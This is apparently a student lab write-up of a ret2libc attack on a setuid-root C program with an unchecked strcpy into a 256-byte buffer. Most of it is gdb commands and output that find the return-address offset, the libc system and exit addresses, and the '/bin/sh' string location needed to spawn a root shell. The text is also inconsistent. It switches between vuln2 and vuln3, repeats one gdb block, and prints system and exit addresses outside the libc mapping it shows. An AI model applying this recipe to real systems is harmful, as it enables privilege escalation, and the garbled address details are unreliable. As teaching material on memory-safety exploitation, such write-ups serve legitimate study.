 # Ret2libc

## Task
The goal is to exploit the following simple program, when compiled with the following commands:

```
vijay@kali> cat vuln2.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {

  char buf[256];

  strcpy(buf, argv[1]);
  printf("Input: %s\n", buf);

  return 0;
}
vijay@kali> gcc -g -fno-stack-protector -mpreferred-stack-boundary=2 -o vuln2 vuln2.c
vijay@kali> sudo chown root vuln2
vijay@kali> sudo chgrp root vuln2
vijay@kali> sudo chmod +s vuln2
```
<hr/>
## Solution

### Instuctions to run
```
# exploit vuln2.c
$ make clean && make vuln2
$ python exploit2.py
```

### Explanation
First, I guessed the offset of return address. In the code, we have only one local variable char buf[256]; which is of 256 bytes size. So return address might be located at 256 + 4 (old ebp) bytes.

```
vijay@kali:~/hw3$ gdb vuln3 -q
Reading symbols from vuln3...done.
(gdb) run `python -c 'print "A" * 260 + "BBBB"'`
Starting program: /home/vijay/hw3/vuln3 `python -c 'print "A" * 260 + "BBBB"'`
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)

Next, I found the function addresses of system and exit functions as shown
below:

(gdb) p system
$1 = {<text variable, no debug info>} 0xb755d850 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75516c0 <__GI_exit>
(gdb) info proc mappings
process 1691
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/vijay/hw3/vuln3
         0x8049000  0x804a000     0x1000        0x0 /home/vijay/hw3/vuln3
        0xb7e05000 0xb7fb2000   0x1ad000        0x0 /lib/i386-linux-gnu/libc-2.23.so
```

Next, I found the function addresses of system and exit functions as shown below:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb755d850 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75516c0 <__GI_exit>
(gdb) info proc mappings
process 1691
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/vijay/hw3/vuln3
         0x8049000  0x804a000     0x1000        0x0 /home/vijay/hw3/vuln3
        0xb7e05000 0xb7fb2000   0x1ad000        0x0 /lib/i386-linux-gnu/libc-2.23.so
```

Next, I searched for the location of "/bin/sh" string in /lib/i386-linux-gnu/libc-2.23.so:
```
vijay@kali:~/hw3$ strings -t x /lib/i386-linux-gnu/libc-2.23.so | grep /bin/sh
 158e64 /bin/sh

So "/bin/sh" string is located at 0xb7f5de64 location

(gdb) print/x 0xb7e05000 + 0x158e64
$1 = 0xb7f5de64
(gdb) x/1s 0xb7f5de64
0xb7f5de64:     "/bin/sh"
```

Finally, I crafted my payload to exploit vuln2.c. Please refer to exploit2.py for complete details of the payload.
